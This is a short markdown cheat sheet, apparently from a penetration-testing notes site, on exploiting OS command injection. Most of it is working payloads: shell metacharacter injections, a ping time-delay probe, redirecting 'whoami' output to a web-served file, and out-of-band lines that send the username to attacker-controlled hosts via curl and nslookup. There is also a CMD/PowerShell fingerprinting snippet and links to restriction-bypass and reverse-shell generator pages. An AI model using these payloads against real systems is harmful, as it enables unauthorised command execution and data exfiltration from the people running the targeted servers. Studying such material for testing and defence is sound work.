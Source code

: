 ```yaml
---
title: "OS command injection"
weight: 18
description: "Learn about OS command injection vulnerabilities, detection methods, and exploitation techniques. Understand how to bypass restrictions and use metacharacters for injecting commands in both Windows and Unix systems."
---
```


# OS command injection

## Command injection

```sh
& echo qwerty &
```

Placing `&` after the injected command is generally useful because it separates the injected command from whatever follows the injection point.

---

## Blind OS command

**Detection**

```sh
# 10 sec. time delay
& ping -c 10 127.0.0.1 &
```

**Exploit**

1. Redirecting output. Note: you must have write permission

    ```sh
    & whoami > /var/www/static/whoami.txt &
    curl https://website.com/whoami.txt
    ```

2. Out-of-band techniques

    ```sh
    & curl `whoami`.webserver-attacker.com & # HTTP traffic may be blocked
    & nslookup `whoami`.kgji2ohoyw.web-attacker.com &
    ```

3. Open a shell

---

## Bypass restriction

There are so many ways: [https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html](https://book.hacktricks.wiki/linux-hardening/bypass-bash-restrictions/index.html)

---

## Metacharacters

```sh
# Windows & Unix
&
&&
|
||

# Unix
;

# Unix inline execution
`command`
$(command)
```

---

## Identify CMD or PowerShell

To determine whether commands are executed by PowerShell or CMD, use this snippet:

```cmd
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

---

## Reverse Shell Generator

https://www.revshells.com/